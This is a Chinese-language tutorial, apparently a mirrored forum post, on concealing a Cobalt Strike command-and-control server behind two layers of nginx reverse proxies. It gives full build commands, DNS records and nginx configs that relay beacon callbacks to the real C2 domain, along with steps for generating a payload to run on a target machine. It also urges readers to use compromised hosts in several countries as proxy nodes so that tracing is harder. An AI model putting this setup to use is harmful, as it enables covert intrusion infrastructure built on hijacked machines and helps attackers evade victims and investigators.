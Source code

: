 # 尝试将 C2 隐匿于多级 nginx 反向代理

> 原文：[https://www.zhihuifly.com/t/topic/3648](https://www.zhihuifly.com/t/topic/3648)

# 尝试将 C2 隐匿于多级 nginx 反向代理

## 关于利用多级 nginx 反代实现 beacon 上线的大致思路拓扑

![image](img/1fa9d4d2abee868405d174c96e6c2d36.png)

> 大致思路是这样,首先,我们会用一个 CS 的外部 http 监听器先把流量弹到第一层的 nginx 反代理节点上,因为事先已经在 mail 这台机器上做好了反代配置,而这个反代配置里实际指向的是我们第二层 nginx 反代节点的域名,所以当回连的流量一过来就会直接被抛到第二层的 nginx 反代节点上,由于又事先在第二层反代节点上也做好了反代配置,不过这次配置里指向的并不是别的地方,而是我们真实的 C2 服务器域名,所以最终导致的结果就是,目标机器回连流量在通过众多的 nginx 反代节点之后正常上线,大家自己实际操作过程中,务必要先对着拓扑理解清楚再动手,不然你可能会觉得有些乱,其实,说实话,没啥技术含量,完全都是些基础的堆砌加灵活应用而已,来看实际操作吧

### 0x01 首先,同时在两台 nginx 反代节点的 vps 机器上编译安装好 nginx,过程非常简单,如下

```
# apt-get install build-essential libtool libpcre3 libpcre3-dev zlib1g-dev openssl -y
# useradd -s /sbin/nologin -M nginx 切记不要以高权限起服务
# wget http://nginx.org/download/nginx-1.14.1.tar.gz
# tar xf nginx-1.14.1.tar.gz
# cd nginx-1.14.1
# ./configure --prefix=/usr/local/nginx-1.14.1 --user=nginx --group=nginx --with-http_ssl_module --with-http_stub_status_module --with-http_gzip_static_module
# make && make install
# echo $? 
```

![image](img/bc7f2057ea91569d068f72538029cba0.png)

![image](img/8f85d5b90e3e31ae44610aa7d830ec4e.png)

### 0x02 接着,再回到自己本地的 linux 机器上

> 启动 CobalStrike 客户端,连到自己的 C2 服务器,然后创建两个 常规 HTTP 协议,端口为 80 [ 注: 两个监听器的协议必须匹配 ] 的监听器,一个就是反向监听器 [ 特别注意下这个反连域名,是真正的 C2 服务器域名,即 oa.finalc2.com,也就是等会儿要从第二层 nginx 反代节点往后抛的域名 ]

![image](img/1685aa74e04f268767d72a60452855aa.png)

另外再创建一个相同协议端口的外部监听器,注意,这个外部监听器的回连域名要写第一层 nginx 反代节点的域名[ 即 mail.first.com ],因为回连的流量会首先被弹到这里,然后再通过层层反代直至抛到后端真实的 C2 服务器,最后,再用这个外部监听器创建一个 exe payload,等会儿要把它丢到目标机器执行

![image](img/ab223e7b17408f2f31d9d24c0012f262.png)

> 如下,两个监听器准备就绪

![image](img/1e9a82782d247c0724d84e3a8a911226.png)

### 0x03 由于此处全程都是用域名在操作,所以务必请提前配置好所有域名解析,只需添加一条对应的 A 记录 即可

```
mail.first.com 21.67.38.47 
```

![image](img/ae94dc1da273916b87763c5a8cce6938.png)

```
host.second.com 187.50.112.135 
```

![image](img/c318a5b5282a60f703dc00f34066cac3.png)

```
oa.finalc2.com 208.36.69.66 
```

![image](img/7a3041621964c1f5381039cf11d3e942.png)

### 0x04 开始配置第一层 nginx 反代节点

也就是在 21.67.38.47 这台机器上,配置过程非常简单,如下

```
# vi /usr/local/nginx/conf/nginx.conf
worker_processes 1;
events {
 worker_connections 1024;
}
http {
 include mime.types;
 default_type application/octet-stream;
 sendfile on;
 keepalive_timeout 65;
 log_format main '$remote_addr - $remote_user [$time_local] '
 ' "$request" $status $body_bytes_sent '
 ' "$http_referer" "$http_user_agent" "$http_x_forwarded_for" ';

upstream default_pools{

server [host.second.com:80](http://host.second.com:80); 到达本机的所有 80 端口的流量都会被后抛到这个域名上

} `server {

listen 80;

server_name [host.second.com](http://host.second.com);

location / {

proxy_pass http://default_pools;

}

}

}` 
```

> 配置完成后,务必要记得立即重启 nginx 服务使配置生效

```
# ifconfig | grep 'inet addr'
# /usr/local/nginx/sbin/nginx -s quit
# /usr/local/nginx/sbin/nginx 
```

![image](img/cc22810540dc147f6c51c308f0e4fa68.png)

### 0x05 开始配置第二层 nginx 反代节点

> 也就是在 187.50.112.135 这台机器上,过程基本同上,只不过这次是把流量直接抛给了后端的真实 C2 服务器

```
# vi /usr/local/nginx/conf/nginx.conf
worker_processes 1;
events {
 worker_connections 1024;
}
http {
 include mime.types;
 default_type application/octet-stream;
 sendfile on;
 keepalive_timeout 65;
 log_format main '$remote_addr - $remote_user [$time_local] '
 ' "$request" $status $body_bytes_sent '
 ' "$http_referer" "$http_user_agent" "$http_x_forwarded_for" ';

upstream default_pools{

server [oa.finalc2.com:80](http://oa.finalc2.com:80); 真实 C2 域名

} `server {

listen 80;

server_name [oa.finalc2.com](http://oa.finalc2.com);

location / {

proxy_pass http://default_pools;

}

}

}` 
```

> 之后,同样务必要记得立即重启 nginx 服务使配置生效

![image](img/dd909316c373d50b097dc3cece59c749.png)

> 此时,当我们回到目标机器上正常执行 payload 后,便会看到 beacon 正常上线,如下,从目标机器的网络连接中也不难发现,其实,这个连接显示的 ip 也只是我们上面第一层 nginx 反代节点的ip,而真实的 C2 服务器却被隐藏在了后端好几层,再加上如果中间的 nginx 反代节点全部都是直接拿不同国家地域的肉鸡搞的[高度匿名化],这无疑再一次加大了对方的溯源难度和成本

![image](img/31e4521656fe8d723b3bb2f50a91f9c2.png)

> 另外,从 CS web log 里我们也清晰的看到,所有请求都是从 187.50.112.135 [即 host.second.com 第二层 nginx 反代节点 ]这台机器过来的,至此,也说明我们的多级反代确实是成功有效的

![image](img/d92138dbecded0d29dcef34281ebf24a.png)

## 小结:

至此为止,关于如何利用多级 nginx 反代,来实现 C2 的深度隐藏基本也就说完了,多次实战检验,传输确实挺稳定的,说实话,没太多技术含量,还是那句话,都是些非常简单的基础配合利用,文章初衷也是为了给弟兄们提供一个简单易用的 demo,其实,在实战中,你完全可以把这个搞的非常的复杂,比如,利用一些比较稳定的肉鸡群做成一个非常庞大的全球反代网,这些就要靠弟兄们自己思考了,ok,再多的就不说了,其实话说到这儿,理解的弟兄,应该也都早已经理解了,不过退一步来讲,这样隐藏 C2 其实还是不够彻底,因为,毕竟我们此时的 C2 还是直接被暴露在公网中,既然是在公网,那就肯定有被扫到或者反捅的风险,比如,你的 C2 直接用的 CobaltStrike 这种东西来搞的,万一哪天 CS 再爆洞,你可能又是第一批受害者,所以...弟兄们应该都能理解了,在下个章节中我们将会简单介绍,如何用避免直接把 C2 暴露在公网中的方式去隐藏,并实现本地 beacon 上线,ok,废话不多讲,有任何问题,弟兄们及时反馈,同时也非常欢迎大家来一起深度讨论交流,祝好运